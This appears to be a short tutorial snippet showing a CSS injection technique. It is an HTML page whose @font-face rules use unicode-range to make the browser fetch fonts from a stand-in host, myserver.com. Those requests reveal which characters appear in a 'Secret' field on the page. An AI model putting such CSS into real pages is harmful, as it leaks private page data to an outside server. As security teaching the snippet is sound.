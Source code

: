 ## Unicode Range

```html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: 'f1';
        src: url(https://myserver.com?q=1);
        unicode-range: U+31;
      }

      @font-face {
        font-family: 'f2';
        src: url(https://myserver.com?q=2);
        unicode-range: U+32;
      }

      @font-face {
        font-family: 'f3';
        src: url(https://myserver.com?q=3);
        unicode-range: U+33;
      }

      @font-face {
        font-family: 'fa';
        src: url(https://myserver.com?q=a);
        unicode-range: U+61;
      }

      @font-face {
        font-family: 'fb';
        src: url(https://myserver.com?q=b);
        unicode-range: U+62;
      }

      @font-face {
        font-family: 'fc';
        src: url(https://myserver.com?q=c);
        unicode-range: U+63;
      }

      div {
        font-size: 4em;
        font-family: f1, f2, f3, fa, fb, fc;
      }
    </style>
    Secret:
    <div>ca31a</div>
  </body>
</html>
```
